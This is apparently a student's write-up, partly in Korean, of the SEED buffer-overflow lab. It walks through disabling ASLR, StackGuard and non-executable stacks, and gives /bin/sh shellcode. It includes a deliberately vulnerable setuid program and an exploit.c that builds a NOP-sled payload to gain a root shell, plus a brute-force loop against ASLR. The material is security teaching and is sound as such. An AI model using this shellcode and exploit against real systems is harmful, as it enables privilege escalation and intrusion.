









# System Security

<br/>

## # SEED:

### Developing Instructional Laboratories for Computer SEcurity EDucation

> SEED LABS : https://seedsecuritylabs.org/

The objective of the SEED project is to develop an instructional laboratory environment and laboratory exercises (called SEED labs) for computer system security education.

The goal of our labs is to help students focus on (1) grasping security principles, concepts, and technologies, (2) applying security principles to design and implement security mechanisms, (3) analyzing and testing systems for security properties.

(4) applying security principles to solve real-world problems.

<br/>

<br/>

<br/>

## # Buffer Overflow Vulnerability Lab

### Overview

Buffer overflow is defined as the condition in which a program attempts to write data beyond the boundaries of pre-allocated fixed length buffers.

This vulnerability can be used by a malicious user to alter the flow control of the pro- gram, leading to the execution of malicious code.

his vulnerability can be used by a malicious user to alter the flow control of the program, leading to the execution of malicious code.

This vulnerability arises due to the mixing of the storage for data (e.g. buffers) and the storage for controls (e.g. return addresses): an overflow in the data part can affect the control flow of the program, because an overflow can change the return address.

<br/>

<br/>

### Turning Off Countermeasures

- **Address Space Randomization**

  - *Ubuntu* and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks.

  - ```bash
    $ sudo sysctl -w kernel.randomize_va_space=0
    kernel.randomize_va_space = 0
    ```
    
    <p align="center">
        
        <div align="center">kernel.randomize_va_space = 0</div>
    </p>
    
    <br/>
    

- **The StackGuard Protection Scheme**

  - The GCC compiler implements a security mechanism called Stack-Guard to prevent buffer overflows. In the presence of this protection, buffer overflow attacks will not work. We can disable this protection during the compilation using the *-fno-stack-protector* option. For example, to compile a program `example.c` with StackGuard disabled, we can do the following:

  - ```bash
    gcc -fno-stack-protector example.c
    ```

- **Non-Executable Stack**

  - Ubuntu used to allow executable stacks, but this has now changed: the binary images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e., they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide whether to make the stack of this running program executable or non-executable. This marking is done automatically by the recent versions of gcc, and by default, the stack is set to be non-executable. To change that, use the following option when compiling programs:

  - ```bash
    # For executable stack:
    $ gcc -z execstack -o test test.c
    
    # for non-executable stack:
    $ gcc -z noexecstack -o test test.c
    ```

- **Configuring /bin/sh (Ubuntu 16.04 VM only)**

  - ```bash
    $ sudo ln -sf /bin/zsh /bin/sh
    ```

<br/>

<br/>

### Running Shellcode

```c
/* shellcode.c */

#include <stdio.h>
int main() {
    char*name[2];
    //name[0] = "/bin/zsh";
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

<p align="center">
    
    <div align="center">shellcode.c Result</div>
</p>

<br/>

```c
/* call_shellcode.c */

/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
    "\x31\xc0" /* Line 1: xorl %eax,%eax */
    "\x50"     /* Line 2: pushl %eax */
    "\x68"
    "//sh" /* Line 3: pushl $0x68732f2f */
    "\x68"
    "/bin"     /* Line 4: pushl $0x6e69622f */
    "\x89\xe3" /* Line 5: movl %esp,%ebx */
    "\x50"     /* Line 6: pushl %eax */
    "\x53"     /* Line 7: pushl %ebx */
    "\x89\xe1" /* Line 8: movl %esp,%ecx */
    "\x99"     /* Line 9: cdq */
    "\xb0\x0b" /* Line 10: movb $0x0b,%al */
    "\xcd\x80" /* Line 11: int $0x80 */
    ;

int main(int argc, char **argv)
{
    char buf[sizeof(code)];
    strcpy(buf, code);
    ((void (*)())buf)();
}
```

```bash
$ gcc -o call_shellcode -z execstack -fno-stack-protector call_shellcode.c
```

<p align="center">
    
    <div align="center">call_shellcode.c Result</div>
</p>
<br/>

<br/>

### The Vulnerable Program

버퍼 오버플로우를 발생시킬 수 있는 적절한 `badfile`을 생성한다. 이후, `badfile`을 읽는 취약한 프로그램을 실행시키면 `badfile`을 읽고 버퍼 오버플로우를 발생시킨다.

이를 위해 (1) return address가 어디에 저장되어 있는지 알아야하고, (2) shellcode가 어디에 저장될지 알아야 한다.

이를 위해서는 스택 레이아웃을 이해해야 하는데, 아래는 그러한 예시를 그림으로 나타낸 것이다.

<p align="center">
    
    <div align="center">Finding the address of the memory.</div>
</p>
<br/>

위 그림에서 처럼 `buffer[]` 배열의 주소를 알아낼 수 잇다면, return address가 저장된 위치를 계산할 수 있다.

결국, `buffer[]`의 주소를 정확히 계산할 수 잇따면, 악성 코드의 시작점 또한 정확히 계산하는 것이 가능하다.

주소를 정확하게 계산할 수 없는 경우(원격 프로그램)일 지라도 여전히 추측이 가능하다.

이러한 공격이 성공할 수 있는 기회를 늘리기 위해서, 다수의 NOP들을 악성 코드의 시작점에 추가할 수 있다.

<p align="center">
    
    <div align="center">Storing an long integer in buffer.</div>
</p>
<br/>


```c
/* Vunlerable program: stack.c */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#ifndef BUF_SIZE
#define BUF_SIZE 24
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];

    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    /* Change the size of the dummy array to randomize the parameters for this lab.
    Need to use the array at least once */
    char dummy[BUF_SIZE];
    memset(dummy, 0, BUF_SIZE);
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

```bash
$ touch badfile
$ gcc -o stack -g -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

<br/>

**Run debugger**

```bash
$ gdb stack
$ b bof
$ r
```

<p align="center">
    
    <div align="center">Run debugger</div>
</p>
<br/>

Now in order to find the return address we need to find the address of **ebp**.

After, finding the address of **ebp** we need to find the starting address of buffer.

Finally, we calculate offset.

*0x188(HEX) = 392(DEC)*

<p align="center">
    
    <div align="center">Print address</div>
</p>
<br/>

```c
/* exploit.c */

/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] = "\x31\xc0" /*Line1:xorl%eax,%eax*/
                   "\x50"     /*Line2:pushl%eax*/
                   "\x68"
                   "//sh" /*Line3:pushl$0x68732f2f*/
                   "\x68"
                   "/bin"     /*Line4:pushl$0x6e69622f*/
                   "\x89\xe3" /*Line5:movl%esp,%ebx*/
                   "\x50"     /*Line6:pushl%eax*/
                   "\x53"     /*Line7:pushl%ebx*/
                   "\x89\xe1" /*Line8:movl%esp,%ecx*/
                   "\x99"     /*Line9:cdq*/
                   "\xb0\x0b" /*Line10:movb$0x0b,%al*/
                   "\xcd\x80" /*Line11:int$0x80*/
    ;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile; /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    *((long *)(buffer + 396)) = 0xbfffef58 + 0x88;
    memcpy(buffer + sizeof(buffer) - sizeof(shellcode), shellcode, sizeof(shellcode));

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

여기서 ebp 주소에 0x88(128)을 추가한다.

공격 시 버퍼 크기가 517이며, 그 중 396바이트는 스택에서 사용하고 25바이트는 셸 코드로 사용되므로 그 사이에 값을 추가하여 NOP 코드가 포함된 주소로 현재 반환 주소를 대체할 수 있다.

```bash
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack

# whoami
root
```

<p align="center">
    
    <div align="center">Exploit Success</div>
</p>
<br/>

<br/>

### Turn on the Ubuntu's Address Randomization

```bash
$ sudo sysctl -w kernel.randomize_va_space=2
```

If running the vulnerable code once does not get you the root shell, how about running it for many times?

You can run `./stack` in the following loop, and see what will happen.

If your exploit program is designed properly, you should be able to get the root shell after a while.

You can modify your exploit program to increase the probability of success (i.e., reduce the time that you have to wait).

```bash
$ sh -c "while [ 1 ]; do ./stack; done;"

# whoami
root
```

<p align="center">
    
    <div align="center">Turn on the Ubuntu's Address Randomization</div>
</p>

<br/>